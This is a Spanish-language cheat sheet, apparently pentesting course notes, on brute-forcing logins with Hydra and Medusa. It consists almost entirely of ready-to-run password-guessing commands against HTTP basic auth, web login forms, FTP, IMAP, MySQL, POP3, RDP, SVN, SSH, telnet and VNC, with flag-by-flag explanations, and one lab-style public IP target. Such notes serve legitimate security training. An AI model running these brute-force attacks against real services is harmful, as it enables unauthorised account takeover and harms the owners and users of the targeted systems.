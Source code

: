 # Login Brute Forcing

## Exploiting Basic Auth with Hydra

```c
$ hydra -l user -P passwords.txt 127.0.0.1 http-get / -s 81
```

- **`hydra`**: El comando que ejecuta la herramienta de ataque de fuerza bruta.
- **`-l user`**: Especifica un solo nombre de usuario `user` para usar en el ataque.
- **`-P passwords.txt`**: Especifica un archivo de lista de contraseñas (`passwords.txt`) que Hydra utilizará para intentar iniciar sesión.
- **`127.0.0.1`**: La dirección IP del servidor de destino, que en este caso es `localhost`.
- **`http-get`**: El protocolo que se va a utilizar es una solicitud HTTP GET.
- **`/`**: El camino o recurso de la URL que se va a atacar (la raíz del servidor web).
- **`-s 81`**: Especifica que el puerto a atacar es el `81`, en lugar del predeterminado `80`.

```c
❯ hydra -l basic-auth-user -P /usr/share/seclists/Passwords/2023-200_most_used_passwords.txt 94.237.62.166 -s 53856 http-get /
```

```c
hydra -l admin -P /path/to/password_list.txt 127.0.0.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```

- **`hydra`**: La herramienta de fuerza bruta que estás utilizando.
- **`-l admin`**: Indica que el nombre de usuario que se probará es `admin`.
- **`-P /path/to/password_list.txt`**: Especifica la ruta del archivo de lista de contraseñas que Hydra usará para intentar acceder.
dis- **`127.0.0.1`**: La dirección IP del servidor de destino, en este caso `localhost`.
- **`http-post-form`**: Especifica que el método HTTP a usar es POST, ya que se está atacando un formulario de inicio de sesión.
- **`/login.php:user=^USER^&pass=^PASS^:F=incorrect`**:
    - **`/login.php`**: La ruta en el servidor donde se encuentra el formulario de inicio de sesión.
    - **`user=^USER^&pass=^PASS^`**: La cadena de datos que se envía al formulario. `^USER^` y `^PASS^` son marcadores de posición que Hydra reemplaza automáticamente con los nombres de usuario y contraseñas del archivo de lista.
    - **`:F=incorrect`**: Es la cadena que Hydra busca en la respuesta del servidor para determinar si la autenticación falló. Si la respuesta contiene `incorrect`, Hydra asume que la autenticación fue fallida.

```c
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

## Medusa

```c
medusa -M ftp -h 192.168.1.100 -u admin -P passwords.txt
```

```c
medusa -M http -h www.example.com -U users.txt -P passwords.txt -m DIR:/login.php -m FORM:username=^USER^&password=^PASS^
```

```c
medusa -M imap -h mail.example.com -U users.txt -P passwords.txt

```

```c
medusa -M mysql -h 192.168.1.100 -u root -P passwords.txt
```

```c
medusa -M pop3 -h mail.example.com -U users.txt -P passwords.txt
```

```c
medusa -M rdp -h 192.168.1.100 -u admin -P passwords.txt
```

```c
medusa -M svn -h 192.168.1.100 -u admin -P passwords.txt
```

```c
medusa -M ssh -h 192.168.1.100 -u root -P passwords.txt
```

```c
medusa -M telnet -h 192.168.1.100 -u admin -P passwords.txt
```

```c
medusa -M vnc -h 192.168.1.100 -P passwords.txt
```

```c
medusa -M web-form -h www.example.com -U users.txt -P passwords.txt -m FORM:"username=^USER^&password=^PASS^:F=Invalid"
```
